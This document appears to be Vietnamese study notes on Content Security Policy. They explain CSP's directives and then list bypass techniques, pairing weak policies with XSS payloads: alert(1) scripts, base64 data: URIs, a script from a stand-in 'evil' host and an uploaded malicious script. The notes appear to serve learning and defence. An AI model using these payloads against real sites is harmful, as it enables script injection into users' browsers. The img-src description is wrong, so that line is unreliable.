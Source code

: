 # Content Security Policy
# I.Tổng quan.
## 1. khái niệm CSP.
- Content Security Policy (CSP) là biện pháp bảo mật thiết yếu để bảo vệ các ứng dụng web khỏi một số loại tấn công nhất định. Bằng cách xác định các quy tắc nghiêm ngặt về tài nguyên mà trình duyệt có thể tải, CSP hạn chế các vectơ tấn công tiềm ẩn.
- Content Security Policy (CSP) biện pháp bảo vệ bổ sung giúp phát hiện và hạn chế một số cuộc tấn công từ phía máy khách, chẳng hạn như Cross Site Scripting (XSS) , clickjacking và chèn nội dung.
## 2.hoạt động CSP.

## 3.Một số chính sách của CSP.

\- Các chỉ thị này xác định các nguồn được ủy quyền cho các tài nguyên HTML khác nhau
+ default-src : Nguồn mặc định nếu không có chỉ thị nào khác được xác định.
+ script-src : Nguồn hợp lệ cho các tập lệnh JavaScript và WebAssembly.
+ script-src-elem : Nguồn hợp lệ cho <script>thẻ. Nếu không có, script-srcsẽ được sử dụng.
+ frame-src : Nguồn hợp lệ cho <frame>và <iframe>.
+ img-src : Nguồn hợp lệ cho <object>, <embed>và <applet>.
+ style-src : Nguồn hợp lệ cho bảng định kiểu.
+ font-src : Nguồn phông chữ hợp lệ

\- Một số chỉ thị không liên quan đến việc khôi phục tài nguyên nhưng bổ sung thêm các biện pháp kiểm soát bảo mật
+ sandbox : Kích hoạt một hộp cát để cô lập nội dung nhất định (như đối với <iframe>).
+ require-trusted-types-for : Áp dụng 'các loại đáng tin cậy' để hạn chế các cuộc tấn công XSS dựa trên DOM .
+ trusted-types : Xác định danh sách trắng 'Loại đáng tin cậy' để ngăn chặn việc thực thi dữ liệu giả mạo.
+ upgrade-insecure-requests : Tự động chuyển đổi yêu cầu HTTP sang HTTPS. Hữu ích cho việc hiện đại hóa một trang web có nhiều URL cũ.
+ frame-ancestors : Hạn chế các nguồn được phép cho các phần tử <frame>, <iframe>, <object>, <embed>và <applet>.
+ form-action : Kiểm soát các URL được phép gửi biểu mẫu.
+ base-uri : Hạn chế các nguồn hợp lệ cho <base>thẻ.

## 4.bỏ qua các chính sách CSP.
- Xác thực JavaScript không an toàn trong dòng : ```Content-Security-Policy: default-src 'none'; script-src 'unsafe-inline';```
  + payload :  ```<script>alert(1);</script>```
- Ủy quyền đánh giá không an toàn :  ```Content-Security-Policy: default-src 'none'; script-src 'unsafe-eval' data:; ```
 + payload :  ``` <script src="data:;base64, YWxlcnQoMSk="></script>```
- Sử dụng ký tự đại diện trong script-src :  ```Content-Security-Policy: default-src 'none'; script-src https://vaadata.com *; ```
  + payload :  ``` <script src="https://evil.vaadata.at"></script>  ```
                 ```<script src="data:;base64, YWxlcnQoMSk="></script> ```
- Không có chỉ thị object-src và default-src :  ```Content-Security-Policy: script-src ‘self’; img-src ‘self’; img-src 'self’;```
  + payload : ```<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></object>```
- Khai thác điểm cuối JSONP được ủy quyền :
- 
  **```Content-Security-Policy: default-src 'none';```
  ```script-src https://hello.vaadata.com/test.js ```
```https://accounts.google.com/o/oauth2/revoke;```**
- Bỏ qua CSP thông qua việc tải tệp lên : ```Content-Security-Policy: default-src 'self'```
  + payload : ```<script src="/upload/evil-script.js"></script>```
